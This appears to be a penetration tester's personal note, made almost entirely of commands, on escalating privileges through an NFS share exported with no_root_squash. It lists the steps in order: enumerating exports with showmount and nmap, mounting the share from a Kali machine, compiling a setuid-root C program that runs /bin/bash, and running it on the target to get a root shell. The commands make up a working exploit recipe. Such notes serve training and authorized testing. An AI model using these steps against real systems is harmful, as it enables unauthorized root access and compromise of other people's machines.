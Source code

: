 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Mounting
Target:
```bash - target
cat /etc/exports
```

![[Pasted image 20221115140352.png]]

Notice how the /tmp directory is set to no_root_squash.

Kali:
```bash - kali
showmount -e $TARGET
```

![[Pasted image 20221110090529.png]]
Similar Nmap script:

```bash
nmap –sV –script=nfs-showmount $TARGET
```

```bash - kali
mkdir /tmp/mountme
```

```bash - kali
sudo mount -o rw,vers=2 $TARGET:/tmp /tmp/mountme
```

```bash - kali
ls /tmp/mountme
```

#### Root Squashing
```bash - kali
cd /tmp/mountme
```

```bash - kali
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > x.c
```

```bash - kali
sudo gcc x.c -o x
```

```bash - kali
sudo chmod +s x
```

Target:
```bash - target
cd /tmp
```

```bash - target
./x
```

![[Pasted image 20220220171150.png]]

